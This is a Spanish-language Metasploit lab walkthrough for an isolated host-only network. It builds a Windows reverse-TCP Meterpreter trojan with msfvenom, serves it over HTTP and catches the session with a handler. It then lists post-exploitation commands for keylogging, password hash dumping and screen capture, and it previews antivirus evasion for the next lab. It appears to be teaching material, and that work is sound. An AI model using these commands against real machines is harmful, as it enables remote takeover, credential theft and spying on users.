

✅ Laboratorio: Red Team Metasploit y Payloads (Windows vulnerable)
Este laboratorio es el primer paso en el mundo del Red Teaming. Aprenderás a generar un ejecutable malicioso (Trojan), transferirlo a una víctima y tomar el control remoto de un sistema Windows vulnerable desprotegido.
📝 1. Objetivo General
Obtener una sesión de Meterpreter en un sistema Windows vulnerable mediante una conexión inversa (Reverse TCP), comprendiendo la arquitectura básica de un ataque cliente-servidor en ciberseguridad.
🧱 2. Arquitectura del Laboratorio

- Red: VMnet1 (Host-only).
- DHCP: Habilitado para asignación automática de IPs.
- Conectividad: Probar con
pingantes de iniciar.
⚙️ 3. Desarrollo del Ataque
🔸 3.1. Generación del payload (En Kali)
Abrí una terminal en Kali y generá el archivo ejecutable que se enviará a la víctima:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<TU_IP_KALI> LPORT=4444 -f exe -o MiTrojan.exeDesglose del comando:
reverse_tcp: La víctima se conecta a nosotros (Atacante).LHOST: Tu dirección IP (donde recibirás la conexión).-f exe: Crea un archivo ejecutable de Windows.
🔸 3.2. Transferencia del archivo
Activá un servidor web rápido en Kali para que la víctima pueda descargar el archivo:
python3 -m http.server 80En el Windows vulnerable, abrí el navegador y navegá a http://<IP_DE_KALI> para descargar MiTrojan.exe.
🔸 3.3. Configuración del "Escucha" (Listener)
Antes de ejecutar el virus en Windows, debés preparar a Metasploit para recibir la conexión:
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <TU_IP_KALI>
set LPORT 4444
exploit📂 4. Post-Explotación (Anexo de Comandos)
Una vez que veas Meterpreter session 1 opened, probá estos comandos:
| Comando | Acción |
|---|---|
sysinfo | Ver información de la víctima. |
screenshot | Capturar la pantalla actual. |
keyscan_start | Empezar a grabar el teclado. |
keyscan_dump | Ver lo que el usuario escribió. |
shell | Entrar a la consola CMD de Windows. |
hashdump | Extraer las contraseñas del sistema. |
📚 5. Conclusión y Lecciones Aprendidas
Este ataque funciona porque Windows vulnerable no posee las defensas modernas que analizan el comportamiento de los procesos en tiempo real. La técnica de Reverse TCP es fundamental para saltar firewalls que bloquean entradas, pero permiten salidas de red.
⚠️ El siguiente paso: En el próximo laboratorio, veremos que este método falla en Windows 11 debido al Antivirus Defender, y aprenderemos técnicas de evasión para superarlo.